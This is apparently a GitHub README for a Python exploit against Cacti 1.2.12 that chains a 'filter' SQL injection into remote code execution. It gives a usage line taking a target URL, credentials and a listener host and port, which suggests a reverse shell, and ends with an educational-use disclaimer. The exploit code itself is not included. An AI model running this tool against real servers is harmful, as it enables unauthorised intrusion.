 # Project Title

Cacti 1.2.12 - 'filter' SQL Injection / Remote Code Execution 

## Description

Remote Code Exectuion of Cacti using Python

### Executing program

* Using python3
```
python3 cacti.py -t http://exploitcacti.blah -u username -p password -lhost 10.10.10.1 -lport 1337
```

## Help

Help prompt
```
python3 cacti.py -h
```

## Disclaimer
All the code provided on this repository is for educational/research purposes only. Any actions and/or activities related to the material contained within this repository is solely your responsibility. The misuse of the code in this repository can result in criminal charges brought against the persons in question. Author will not be held responsible in the event any criminal charges be brought against any individuals misusing the code in this repository to break the law.


